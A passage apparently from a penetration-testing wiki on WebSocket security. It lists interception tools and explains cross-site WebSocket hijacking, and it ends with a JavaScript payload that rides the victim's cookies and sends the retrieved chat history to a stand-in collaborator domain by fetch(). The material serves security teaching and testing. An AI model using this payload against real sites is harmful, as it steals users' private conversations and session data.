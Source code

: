- **Burp Suite** supports MitM websockets communication in a very similar way it does it for regular HTTP communication.
  - The [**socketsleuth**](https://github.com/snyk/socketsleuth) **Burp Suite extension** will allow you to manage better Websocket communications in Burp by getting the **history**, setting **interception rules**, using **match and replace** rules, using **Intruder** and **AutoRepeater.**
- [**WSSiP**](https://github.com/nccgroup/wssip)**:** Short for "**WebSocket/Socket.io Proxy**", this tool, written in Node.js, provides a user interface to **capture, intercept, send custom** messages and view all WebSocket and Socket.IO communications between the client and server.
- [**wsrepl**](https://github.com/doyensec/wsrepl) is an **interactive websocket REPL** designed specifically for penetration testing. It provides an interface for observing **incoming websocket messages and sending new ones**, with an easy-to-use framework for **automating** this communication.
- [**https://websocketking.com/**](https://websocketking.com/) it's a **web to communicate** with other webs using **websockets**.
- [**https://hoppscotch.io/realtime/websocket**](https://hoppscotch.io/realtime/websocket) among other types of communications/protocols, it provides a **web to communicate** with other webs using **websockets.**

## Websocket Lab

In [**Burp-Suite-Extender-Montoya-Course**](https://github.com/federicodotta/Burp-Suite-Extender-Montoya-Course) you have a code to launch a web using websockets and in [**this post**](https://security.humanativaspa.it/extending-burp-suite-for-fun-and-profit-the-montoya-way-part-3/) you can find an explanation.

## Cross-site WebSocket hijacking (CSWSH)

**Cross-site WebSocket hijacking**, also known as **cross-origin WebSocket hijacking**, is identified as a specific case of **[Cross-Site Request Forgery (CSRF)](csrf-cross-site-request-forgery.md)** affecting WebSocket handshakes. This vulnerability arises when WebSocket handshakes authenticate solely via **HTTP cookies** without **CSRF tokens** or similar security measures.

Attackers can exploit this by hosting a **malicious web page** that initiates a cross-site WebSocket connection to a vulnerable application. Consequently, this connection is treated as part of the victim's session with the application, exploiting the lack of CSRF protection in the session handling mechanism.

### Simple Attack

Note that when **establishing** a **websocket** connection the **cookie** is **sent** to the server. The **server** might be using it to **relate** each **specific** **user** with his **websocket** **session based on the sent cookie**.

Then, if for **example** the **websocket** **server** **sends back the history of the conversation** of a user if a msg with "**READY"** is sent, then a **simple XSS** establishing the connection (the **cookie** will be **sent** **automatically** to authorise the victim user) **sending** "**READY**" will be able to **retrieve** the history of the **conversation**.:

```markup
<script>
websocket = new WebSocket('wss://your-websocket-URL')
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
}
</script>
```
